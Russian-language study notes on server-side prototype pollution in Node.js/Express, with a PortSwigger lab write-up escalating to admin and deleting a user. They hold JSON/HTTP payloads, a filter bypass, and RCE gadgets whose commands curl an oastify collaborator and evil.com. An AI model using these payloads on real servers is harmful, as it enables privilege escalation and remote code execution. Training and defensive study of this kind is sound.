




немного доп теории по загрязнения Server-side
### Server-side prototype pollution

#### что это и почему сложнее чем на клиенте

> Это та же уязвимость, что и на клиенте, только на Node.js сервере. Сложность в том, что ты не видишь код, не можешь открыть консоль и посмотреть объекты, а любая ошибка может положить сервер. И если на клиенте можно просто обновить страницу и все сбросить, то на сервере загрязнение остается на все время работы процесса!

#### как находить без исходников?":

**Через отражение свойства**  
Самый простой способ — отправить JSON с `__proto__` + параметр любой,  и посмотреть, вернется ли твое свойство в ответе

```http
POST /user/update
{
    "user":"wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

Если в ответе пришло `"foo":"bar"` - есть уязвимость.!

**Через побочные эффекты**  
Чаще свойство не отражается, но можно повлиять на поведение сервера

**Status code override**   ОШИБКИ
В Express можно подменить код ошибки через прототип

Находишь запрос, который возвращает ошибку (например 403). Добавляешь в прототип свой `status` (в диапазоне 400-599) и смотришь, изменился ли код ответа

**JSON spaces override**  
Express позволяет управлять отступами в JSON. Добавляешь `"__proto__": {"json spaces": 10}` и смотришь, увеличились ли отступы в ответе

**Charset override**  
Можно заставить сервер декодировать строку как UTF-7

Отправляешь UTF-7 строку `+AGYAbwBv-` (это foo). Загрязняешь прототип свойством `content-type: application/json; charset=utf-7`. Если во втором запросе строка раскодировалась в foo => уязвимость есть

#### Автоматизация

PortSwigger сделали расширение **Server-Side Prototype Pollution Scanner** для Burp. Оно само перебирает все техники и находит источники.

#### RCE через загрязнение

Если получилось загрязнить прототип, можно попытаться выполнить код на сервере

**Через NODE_OPTIONS**  
Загрязняешь прототип свойствами `shell` и `NODE_OPTIONS`. Если где-то создается новый процесс, можно заставить его подключиться к твоему коллаборатору

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-ID.oastify.com"
}
```
**Через child_process.fork**  
Если приложение использует `fork()`, можно подменить `execArgv` и выполнить код через `--eval`

```http
"execArgv": ["--eval=require('child_process').exec('curl YOUR-ID.oastify.com')"]
```

**Через child_process.execSync**  
Можно подменить `shell` и `input`. Например, если на сервере стоит Vim, он умеет выполнять команды из stdin

```c
"shell": "vim",
"input": ":! curl https://evil.com\n"
```

#### Как обходят фильтры

Если блокируют `__proto__`, используют `constructor` или обфускацию типа `__pro__proto__to__`

#### Защита

Такая же как на клиенте == заморозка прототипов, создание объектов через `Object.create(null)`, использование Map вместо обычных объектов

больше теории по сервер-side здесь [[0_theory_PrototypePollution!]]

-------


👉 ЛАБА : https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution
#### Повышение привилегий за счет загрязнения прототипа на стороне сервера

задание:
1 - найти источник загрязнения в Object.prototype
2 - найти гаджет
3 попасть а ак админа и делитнуть карлоса

важно, что при неосторожном тестировании на наличие такой уязвимости - может положить сервер, поэтому, в реальности если такое делать, то можно нарваться на неприятности, причем даже неумышленно , #️⃣.

--------

на сайте есть поля, в настройках аккаунта, в этих полях, скорее всего есть узявимость




кнопка  Submit (html этой стр)
```html
<script type='text/javascript' src='/resources/js/updateAddress.js'></script>
```

----

вот запрос который меняет параметры в аккаунте
```http
POST /my-account/change-address HTTP/2
Host: 0a47001b0346a479809f9e8800890081.web-security-academy.net
Cookie: session=y3iusXOgtlap7blJFPRUw7EcFPVcn50y
Content-Length: 162
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a47001b0346a479809f9e8800890081.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a47001b0346a479809f9e8800890081.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
"address_line_1":"Wiener 12345",
"address_line_2":"One 7777",
"city":"MOSCOW ",
"postcode":"1417",
"country":"RUSSIA",
"sessionId":"y3iusXOgtlap7blJFPRUw7EcFPVcn50y"
}
```

ответ - сервер отражает ответ

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"bf-/5LXJnE5Ah5gzZPPwuADeoHOJq8"
Date: Tue, 17 Mar 2026 05:11:05 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 191

{
"username":"wiener",
"firstname":"Peter",
"lastname":"Wiener",

"address_line_1":"Wiener 12345",
"address_line_2":"One 7777",
"city":"MOSCOW ",
"postcode":"1417",
"country":"RUSSIA",

"isAdmin":false
}

```

--------

ну что-ж, пробую туда впихнуть `__proto__`

добавлю строку `  "__proto__":  { "foo":"bar" } `

--------

пейлоад

```json

{
"__proto__":  { "foo":"bar" },
"address_line_1":"Wiener 12345",
"address_line_2":"One 7777",
"city":"MOSCOW ",
"postcode":"1417",
"country":"RUSSIA",
"sessionId":"y3iusXOgtlap7blJFPRUw7EcFPVcn50y"
}


```

ответ с сервера
```json
{"username":"wiener",
"firstname":"Peter",
"lastname":"Wiener",
"address_line_1":"Wiener 12345",
"address_line_2":"One 7777",
"city":"MOSCOW ",
"postcode":"1417",
"country":"RUSSIA",
"isAdmin":false,

"foo":"bar"   // ВОТ ЭТО ЧУДО ОТРАЗИЛОСЬ

}
```




------

самое интересное, что теперь даже при стандартном запросе без foo , в ответе теперь возвращается `"foo":"bar"`




-------

попробую довавить еще поле с админ = тру

запрос
```json
{
"__proto__":  { "isAdmin":"true" },
"address_line_1":"Wiener 12345",
"address_line_2":"One 7777",
"city":"MOSCOW ",
"postcode":"1417",
"country":"RUSSIA",
"sessionId":"y3iusXOgtlap7blJFPRUw7EcFPVcn50y"
}
```

и в ответе теперь админ вернулся в тру

и я получил админ панель от сервера




-------

удалил карлоса - лаба решена!

-----


#### выводы

в лабе я использовал server-side prototype pollution, чтобы повысить свои привилегии до администратора!

----

Уязвимость оказалась в функции обновления личных данных аккаунта
Когда я отправлял POST-запрос с JSON-данными, сервер мержил мои поля с внутренним объектом пользователя Я добавил в тело запроса поле `__proto__` со своим свойством `foo`. В ответе сервер вернул это свойство, что подтвердило наличие уязвимости. 

После загрязнения прототипа все последующие запросы стали возвращать `foo` в ответе, даже если я его не отправлял

Зная, что прототип загрязнен, я попытался добавить свойство `isAdmin` со значением `true`. В ответе сервер вернул `isAdmin: true`, и на сайте появилась админ-панель. Через нее я удалил пользователя carlos и решил лабораторию

#### защита

От server-side prototype pollution защищаются так же, как и от клиентской версии, но с учетом специфики сервера.

Во-первых, нельзя доверять пользовательскому вводу при мерже объектов. Если без мержа не обойтись, нужно использовать белые списки ключей и удалять опасные вроде `__proto__`, `constructor` и `prototype`.

Во-вторых, нужно замораживать прототипы встроенных объектов. В Node.js это делается через `Object.freeze(Object.prototype)` в самом начале работы приложения.

В-третьих, для создания объектов без прототипа стоит использовать `Object.create(null)`. Такие объекты не наследуют ничего из `Object.prototype` и безопасны для хранения пользовательских данных.

В-четвертых, вместо обычных объектов лучше использовать `Map` для хранения данных, ключи которых могут быть под контролем пользователя.

В-пятых, нужно регулярно обновлять зависимости, особенно фреймворки вроде Express, в которых уже исправили известные уязвимости.


